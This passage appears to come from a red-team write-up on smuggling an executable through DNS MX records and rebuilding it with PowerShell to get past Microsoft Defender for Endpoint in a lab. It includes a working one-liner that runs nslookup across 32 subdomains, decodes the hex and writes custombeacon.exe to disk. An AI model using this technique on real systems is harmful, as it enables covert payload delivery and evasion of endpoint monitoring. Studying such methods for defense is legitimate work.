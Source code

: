 I then modified the original Python3 script to create a zonefile with MX records instead of TXT records:

![image](https://user-images.githubusercontent.com/91164728/160338830-75f837da-c794-45e8-9ce9-b6e4860c3155.png)

The major differences being that we are now chunking 200 characters at a time and we are allocating 100 MX records per subdomain; This is being tracked by the j variable, where j in the MX record is the preference value.  It starts at 10 for the first record and increments by 10 all the way up to 1000.  When j reaches 1010, it resets to 10 and i increments by one, where the i variable is the subdomain specified in each MX record.

This script produces a zonefile like such (end of zonefile shown):

![image](https://user-images.githubusercontent.com/91164728/160331208-4e8e6cac-0385-48fc-8812-83a25ace8d4c.png)

Shown here are two subdomains (31.dns.edu....com and 32.dns.edu....com) and several records for each.  The records can be differentiated by the preference value following each MX (31.dns.edu....com: 960, 970, 980, 990, 1000 32.dns.edu....com: 10, 20, 30)

We will have to modify our powershell command pretty heavily to accommodate this new format.  I have shown the script in Powershell ISE with comments to better explain what is happening at each step, but in effect we are going to:

**-1.** For each subdomain

  **--A** Run Nslookup
  
  **--B** For each MX record returned by Nslookup
  
   **---a.** Parse out just our data and store it in an array in order (as sorted by the MX preference value) 
    
  **--C** Append each string of data to our cumulative $results string

![image](https://user-images.githubusercontent.com/91164728/160332632-8aa8a5f4-9b93-493f-9a05-9888fbf8ce81.png)

We then need to take $results and turn the hex back into binary before we write it to disk.  This is where we will pull in the powershell shown earlier.

Stuffed into a single line we get the following:

```powershell
$results="";for($num = 1; $num -le 32; $num ++){$a = nslookup -type=MX "$num.dns.edu....com" 2> $null;$arr = New-Object string[] ($a.count - 3);for($i = 3; $i -le $a.count - 1; $i++){$a[$i] -match '= ?(.*),' > $null;$temp = $matches[1];$a[$i] -match 'r = ?(.*)' > $null;$arr[$temp/10 - 1] = $matches[1].replace(".dns.edu....com","").replace(".","");$matches = $null};Foreach($j in $arr){$results=$results + $j.replace("`n","")}};[byte[]]$bytes = ($results -split '(.{2})' -ne '' -replace '^', '0X');$bytes | set-content -encoding byte .\custombeacon.exe
```

## Take two

Lets run our powershell command on an MDE lab test box and see what happens (we are in CLM just not shown):

![image](https://user-images.githubusercontent.com/91164728/160338481-7423faaa-fb84-42bf-a31b-8610e6a257fd.png)
